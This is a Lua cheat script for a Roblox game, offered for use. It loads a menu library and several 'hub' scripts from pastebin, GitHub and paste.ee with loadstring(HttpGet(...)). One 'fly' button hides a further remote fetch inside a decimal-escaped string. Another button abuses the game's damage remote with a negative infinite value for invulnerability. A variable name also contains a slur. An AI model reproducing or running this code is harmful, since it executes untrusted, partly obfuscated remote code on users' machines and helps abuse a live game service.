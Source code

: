 local kavoUi = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()
local window = kavoUi.CreateLib("Main Title","BloodTheme")
 
---Tabs
 
local Tab1 = window:NewTab("Main")
local Tab1Section = Tab1:NewSection("Main")
local Tab2 = window:NewTab("Sup")
local Tab2Section = Tab2:NewSection("Nothing")
local Tab3 = window:NewTab("Credits")
local Tab3Section = Tab3:NewSection("thatall")
local Tab3Section = Tab3:NewSection("mehubloxSC")

---buttons

Tab2Section:NewButton("Proxhub","Makes You Ie",function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/TrixAde/Proxima-Hub/main/Main.lua"))()
end)

Tab1Section:NewButton("Semigod","Ifk",function()
_G.GM = true -- Change true to false to disable, made by shitass / peke#7374
while _G.GM do task.wait()
local retardargs = {
["dir"] = Vector3.new(0,0,0), -- The pos doesnt matter
["origin"] = Vector3.new(0,0,0), -- The pos doesnt matter
["shooter"] = game:GetService("Players").LocalPlayer -- Change to any player if LP doesnt work
}
game:GetService'ReplicatedStorage'["damageMe"]:FireServer(-math.huge, retardargs)
end
end)

Tab1Section:NewButton("Infjump","Jsks",function()
local InfiniteJumpEnabled = true
game:GetService("UserInputService").JumpRequest:connect(function()
	if InfiniteJumpEnabled then
		game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping")
	end
end)
end)

Tab1Section:NewButton("Collect souls","M",function()
workspace:WaitForChild("Souls").DescendantAdded:Connect(function(v)
    if v:IsA("TouchTransmitter") and v.Parent:IsA("BasePart") and lp.Character and lp.Character:FindFirstChildWhichIsA("Humanoid") and lp.Character:FindFirstChildWhichIsA("Humanoid").RootPart then
        firetouchinterest(lp.Character:FindFirstChildWhichIsA("Humanoid").RootPart,v.Parent,0)
    end
end)
end)


Tab2Section:NewButton("fly","Mak",function()
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()

Tab2Section:NewButton("horifc","Makes",function()
loadstring(game:HttpGet("https://paste.ee/r/GzZjj", true))()
end)
